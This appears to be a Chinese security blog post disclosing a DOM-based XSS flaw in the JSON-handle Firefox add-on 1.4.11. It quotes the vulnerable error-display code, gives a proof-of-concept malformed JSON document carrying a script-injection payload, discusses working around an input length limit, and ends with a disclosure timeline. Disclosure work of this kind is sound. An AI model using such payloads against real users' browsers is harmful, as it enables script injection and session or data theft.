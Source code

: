 ```yaml
---
layout: post
title: JSON-handle DomXSS Vulnerability (Ver 1.4.11 / 20160926)
---
```

- 获取：[https://addons.mozilla.org/en-US/firefox/addon/json-handle/reviews/](https://addons.mozilla.org/en-US/firefox/addon/json-handle/reviews/)
- It's a browser and editor for JSON document.You can get a beautiful view. 
- 对JSON格式的内容进行浏览和编辑，以树形图样式展现JSON文档，并可实时编辑。

刚好距上次发表 ChromeJsonView 的【[问题](https://www.n0tr00t.com/2016/04/28/JSONView-0day.html)】半年时间，这次简单描述下 Firefox 浏览器中 JsonHandle 最新版存在的安全缺陷，用户在转换 JSON 失败时，由于过滤不严谨导致 DOM 解析错误代码时触发攻击者构造的 JavaScript 代码：

    resource://jsonhandle-at-gmail-dot-com/data/JSON-handle/js/jsonH.js

        "showErrorTips" : function (sJson) {
            var oJsonCheck = oLineCode(sJson);
            if(oJsonCheck.oError) {
                var s = _pri.oLang.getStr('msg_4') + _pri.oLang.getStr('msg_5', oJsonCheck.oError.line+1) + ' : ' + '<span id="errorTarget">'+oJsonCheck.oError.lineText+'</span>';
                $('#tipsBox').html(s);
                _pri["holdErrorTips"] = false;
            }else{
                //alert('ok');
            }
            $('#errorCode').html(oJsonCheck.dom);

追踪变量 oJsonCheck.oError.lineText, var oJsonCheck = oLineCode(sJson);, _pri["insertErrorFlag"] ：

    resource://jsonhandle-at-gmail-dot-com/data/JSON-handle/js/jsonlint.js

        var oLineCode = (function() {
            var _pub_static = function() {
                var _pri = {},
                _pub = {};
                var _init = function(sJson) {
                    sJson = _pri.fixReturnline(sJson);
                    sJson = _pri.insertErrorFlag(sJson);
                    sJson = _pri.escape(sJson);
                    sJson = sJson.replace('@鈼�$#errorEm#$鈼咢', '<span class="errorEm">').replace('@鈼�$#/errorEm#$鈼咢', '</span>');
                    sJson = '<ol><li><div>' + sJson.split('\n').join('</div></li><li><div>') + '</div></li></ol>'_pub["dom"] = $('<div class="line-code">' + sJson + '</div>');
                };

                _pri["fixReturnline"] = function(s) {
                    return s.replace(/\r\n/g, '\n').replace(/\r/g, '\n');
                };

                _pri["insertErrorFlag"] = function(s) {
                    var aLine = s.split('\n');
                    jsonlint.yy.parseError = function(sError, oError) {
                        var sLine = aLine[oError.line];
                        //console.log(sError, oError);
                        _pub.oError = oError;
                        aLine[oError.line] = sLine.slice(0, oError.pos) + '@鈼�$#errorEm#$鈼咢' + sLine.slice(oError.pos) + '@鈼�$#/errorEm#$鈼咢';
                    };

                    try {
                        jsonlint.parse(s);
                    } catch(e) {
                        _pri["hasError"] = true;
                    }
                    return aLine.join('\n');
                };

                _pri["escape"] = function(s) {
                    s = s || '';
                    return s.replace(/\&/g, '&amp;').replace(/\</g, '&lt;').replace(/\>/g, '&gt;').replace(/\"/g, '&quot;').replace(/ /g, '&nbsp;');
                };

                _init.apply(_pub, arguments);
                return _pub;
            };

            return _pub_static;
        } ());
        
_pri["insertErrorFlag"]:

	    var aLine = s.split('\n');
	    jsonlint.yy.parseError = function(sError, oError) {
	        var sLine = aLine[oError.line];
	        //console.log(sError, oError);
	        _pub.oError = oError;
	        aLine[oError.line] = sLine.slice(0, oError.pos) + '@鈼�$#errorEm#$鈼咢' + sLine.slice(oError.pos) + '@鈼�$#/errorEm#$鈼咢';

根据上面的代码缺陷我们可以构造一个报错的 JSON 格式 ：

![](https://ws3.sinaimg.cn/large/c334041bgw1fa7p1sku9oj211q0os0yp.jpg)

	{"Success":true,"Message":"success","Code":200,"ReturnValue":[{"FromCityName":"宜昌","FromCityId":197,"FromCityPy":"","BatchNo":"318_y5abL0_FB_6_3_9","LineProperty":"","ProjectType":7,"ProductId":115590,"Title":"【南昌往返】【双动往返】【黄金系列】长江三峡宜昌-重庆5晚6日游","SubTitle":"邮轮","Price":3200.00,"ProductUrl":"http://www.ly.com/youlun/tours-115590.html#Resys=318_y5abL0_FB_6_3_9","ProductImgUrl":"http://pic3.40017.cn/c_420x272_001111111.jpg"<script>prompt`a1`//","RedTab":""},]}

不过想要加载外域 JS 进一步利用还有一个小坑在里面，我们通过断点调试可以看到 sJson, LineText, s 的值分别为：

![](https://ws4.sinaimg.cn/large/c334041bgw1fa7p0llmllj21kw0g0dm5.jpg)

	- ….c_420x272_001111111.jpg"<script>payload:01234567899876543210//","RedTab":""}
	- ...0x272_001111111.jpg"<script>payload:0123
	- JSON format error@line 1 : <span id="errorTarget">...0x272_001111111.jpg"<script>payload:0123</span>

这是由于代码中的 upcomingInput 对长度进行了限制，但这不影响我们依然可以利用一些技巧来实施攻击：

	resource://jsonhandle-at-gmail-dot-com/data/JSON-handle/js/jsonlint.js

	    upcomingInput:function () {
	            var next = this.match;
	            if (next.length < 20) {
	                next += this._input.substr(0, 20-next.length);
	            }
	            var s = (next.substr(0,20)+(next.length > 20 ? '...':'')).replace(/\n/g, "");
	            return s;
	        }

#### VulnTimeline

- Find the vulnerability. - 2016/11/25 13:00
- Report jsonhandle#gmail.com - 2016/11/27 12:10
- Write the Paper, via @evi1m0. - 2016/11/29 00:00
- Fixed, /json-handle/versions/#version-1.4.12 - 2016/12/28
